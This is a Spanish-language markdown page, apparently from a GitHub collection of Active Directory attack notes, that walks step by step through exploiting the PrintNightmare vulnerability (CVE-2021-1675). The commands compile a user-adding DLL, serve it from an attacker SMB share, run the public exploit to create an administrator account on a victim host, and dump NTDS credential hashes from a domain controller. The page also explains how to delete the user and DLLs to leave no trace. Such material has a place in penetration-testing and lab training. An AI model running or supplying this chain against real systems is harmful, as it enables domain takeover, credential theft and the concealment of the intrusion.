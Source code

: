 # PrintNighmare

[Enlace explicado](https://mayfly277.github.io/posts/GOADv2-pwning-part5/#printnightmare)

Para este ataque se va a aprovechar una vulnerabilidad en el servicio spooler de Windows para añadir un usuario con permisos de administrador. Tener en cuenta que para no dejar rastro después haya que eliminar el usuario y los dll subidos en el equipo víctima

```Bash
# Comprobamos que el equipo es vulnerable
poetry run crackmapexec smb <Rango de IPs> -u <user> -p <pass> -M spooler

# Obtenemos el fichero .c para añadir usuario del repositorio de Github: https://github.com/newsoft/adduser y lo compilamos
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32

# Levantamos una carpeta compartida para que el equipo victima obtenga la dll que heoms creado
impacket-smbserver -smb2support ATTACKERSHARE .

# Ejecutamos el exploit CVE-2021-1675.py obtenido del repositorio de Github: https://github.com/cube0x0/CVE-2021-1675
python3 CVE-2021-1675.py <dominio>/<user>:'<pass>'@<DNS del equipo victima> '\\<Nuestra IP>\ATTACKERSHARE\pnightmare2.dll'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/pritnightmare/files/vid.gif?raw=true "Check de printnighmare y esploit")

```Bash
# Comprobación de que el usuario printnighmare con permisos de administrador ha sido creado
cme smb <IP víctima> -u pnightmare2 -p 'Test123456789!'

# Si es un DC volcar el NTDS
cme smb <IP víctima> -u pnightmare2 -p 'Test123456789!' --ntds
 
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/printnighmare/files/vid2.gif?raw=true "Explotar el nuevo usuario")


## Para eliminar el rastro ver:
[Añadir/Eliminar usuarios](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/utilities/add_remove_users)
## Para borrar las ddl se encuentran en las siguietnes ubicaciones de windows con el nombre de printnighmare*.dll
```Bash
C:\Windows\System32\spool\drivers\x64\3
C:\Windows\System32\spool\drivers\x64\3\Old\{id}\
```
